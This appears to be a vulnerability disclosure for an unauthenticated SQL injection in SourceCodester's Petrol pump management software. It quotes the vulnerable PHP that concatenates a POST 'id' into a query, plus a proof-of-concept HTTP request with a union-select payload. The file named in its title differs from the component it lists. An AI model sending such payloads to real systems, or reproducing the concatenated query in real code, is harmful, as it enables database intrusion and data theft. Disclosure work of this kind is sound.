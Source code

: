 # SOURCECODESTER / Petrol pump management software - profile_crud.php Unauthenticated SQL Injection

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html

## Affected Component
> /admin/edit_categories.php

## Code
```php
 <?php
                                    $stmt = $conn->prepare("SELECT * FROM `fuel_category` WHERE id='" . $_POST['id'] . "' AND delete_status='0' ");

                                    $stmt->execute();
                                    $record = $stmt->fetchAll();
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /admin/edit_categories.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

id=1'+union+select+null,version(),null+%23g
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/3ed26dd8-f6d4-4029-8447-be5e7d81eb92)
